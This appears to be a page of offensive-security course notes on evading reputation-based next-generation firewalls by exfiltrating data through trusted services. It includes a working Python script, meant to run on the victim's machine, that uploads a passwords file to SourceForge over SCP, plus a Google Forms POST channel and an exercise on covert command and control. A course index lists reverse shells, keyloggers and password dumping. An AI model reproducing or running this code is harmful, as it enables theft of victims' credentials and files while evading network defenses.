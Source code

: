 ```yaml
---
title: Bypassing Next Generation Firewalls
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - python
  - python pentesting
  - scripting
  - bypassing techniques
  - firewall
  - bypassing firewall
  - next generation firewalls
---
```


# Bypassing Next Generation Firewalls

From course: [Python For Offensive PenTest: A Complete Practical Course](https://www.udemy.com/course/python-for-offensive-security-practical-course/).

??? abstract "General index of the course"
	- Gaining persistence shells (TCP + HTTP):
		- [Coding a TCP connection and a reverse shell](coding-a-tcp-reverse-shell.md).
		- [Coding a low level data exfiltration  - TCP connection](coding-a-low-level-data-exfiltration-tcp.md).
		- [Coding an http reverse shell](coding-an-http-reverse-shell.md).
		- [Coding a data exfiltration script for a http shell](coding-a-data-exfiltration-script-http-shell.md).
		- [Tunning the connection attempts](tunning-the-connection-attemps.md).
		- [Including cd command into TCP reverse shell](including-cd-command-into-tcp-reverse-shell.md).
	- Advanced scriptable shells:
		- [Using a Dynamic DNS instead of your bared attacker public ip](ddns-aware-shell.md).
		- [Making your binary persistent](making-your-binary-persistent.md). 
		- [Making a screenshot](making-a-screenshot.md). 
		- [Coding a reverse shell that searches files](coding-a-reverse-shell-that-searches-files.md). 
	- Techniques for bypassing filters: 
		- [Coding a reverse shell that scans ports](coding-a-reverse-shell-that-scans-ports.md). 
		- [Hickjack the Internet Explorer process to bypass an host-based firewall](hickjack-internet-explorer-process-to-bypass-an-host-based-firewall.md).
		- [Bypassing Next Generation Firewalls](bypassing-next-generation-firewalls.md).
		- [Bypassing IPS with handmade XOR Encryption](bypassing-ips-with-handmade-xor-encryption.md).
	- Malware and crytography:
		- [TCP reverse shell with AES encryption](tcp-reverse-shell-with-aes-encryption.md).
		- [TCP reverse shell with RSA encryption](tcp-reverse-shell-with-rsa-encryption.md).
		- [TCP reverse shell with hybrid encryption AES + RSA](tcp-reverse-shell-with-hybrid-encryption-rsa-aes.md).
	- Password Hickjacking:
		- [Simple keylogger in python](python-keylogger.md).
		- [Hijacking Keepass Password Manager](hijacking-keepass.md).
		- [Dumping saved passwords from Google Chrome](dumping-chrome-saved-passwords.md).
		- [Man in the browser attack](man-in-the-browser-attack.md).
		- [DNS Poisoning](dns-poisoning.md).
	- Privilege escalation:
		- [Weak service file permission](privilege-escalation.md).


Corporate firewall (Next Generation Firewalls) can block traffic based on the reputation of the target IP/url. This means that once we achieve to execute the malicious client side script on the victim's machine, this next generation firewall might block/defer the connection if the reputation or the rank of the target URL/IP belongs to a pool of resources supplied by the vendor and it's categorized as low.

To overcome this filter, modern malware is using trusted targets.

## Using Source Forge for data exfiltration

**1.** Signup in Source Forge

You will get credentials for configuring your SFTP agent in step 3.


**2.** Install filezilla. It will work as our SFTP agent: 

```bash
sudo apt-get install filezilla
```

**3.** Configure filezilla and connect.
```
Host: web.sourceforge.net
username: usernameinSourceForge
password: passwordinSourceForge
port: 22
```

**4.** Install these two python libraries on the victim's machine: paramiko and scp.

```
pip install paramiko
pip install scp
```

**5.** Run the script on the victim's machine:

```python
'''
Caution
--------
Using this script for any malicious purpose is prohibited and against the law. Please read SourceForge terms and conditions carefully. 
Use it on your own risk. 
'''

# Python For Offensive PenTest: A Complete Practical Course - All rights reserved 
# Follow me on LinkedIn  https://jo.linkedin.com/in/python2


import paramiko
import scp

# File Management on SourceForge 
# [+] https://sourceforge.net/p/forge/documentation/File%20Management/


ssh_client = paramiko.SSHClient() # creating an ssh_client instance using paramiko sshclient class

ssh_client.set_missing_host_key_policy(paramiko.AutoAddPolicy())

ssh_client.connect("web.sourceforge.net", username="myusernameatSourceForge", password="PASSWORD HERE") #Authenticate ourselves to the sourceforge. Server, user and password from step 1
print ("[+] Authenticating against web.sourceforge.net")

scp = scp.SCPClient(ssh_client.get_transport()) #after a sucessful authentication the ssh session id will be passed into SCPClient function

scp.put("C:/Users/Alex/Desktop/passwords.txt") # upload a file, for instance password.txt
print ("[+} File is uploaded")

scp.close()

print("[+] Closing the socket")

```

## Using Google Forms for submitting output

**1.** Create a Google Form with a quick test and copy the link of the survey.

**2.** Copy the name of the form from the source code of the google form.

![name of the form](../img/google-form.png)

**3.** Paste URL of the survey +  name of the form in the script:

```python
'''
Caution
--------
Using this script for any malicious purpose is prohibited and against the law. Please read Google terms and conditions carefully. 
Use it on your own risk. 
'''

# Python For Offensive PenTest: A Complete Practical Course - All rights reserved 
# Follow me on LinkedIn  https://jo.linkedin.com/in/python2



import requests

url = 'https://docs.google.com/forms/d/1Ndjnm5YViqIYXyIuoTHsCqW_YfGa-vaaKEahY2cc5cs/formResponse'

form_data = {'entry.1301128713':'Lets see how we can use this, in the next exercise'}

r = requests.post(url, data=form_data)

# Submitting form-encoded data in requests:-
# http://docs.python-requests.org/en/latest/user/quickstart/#more-complicated-post-requests
```


### Exercise 

```
Try to combine the above ideas (Google Form + Twitter + SourceForge) Into a single script and see if you can control your target without direct interaction.
```
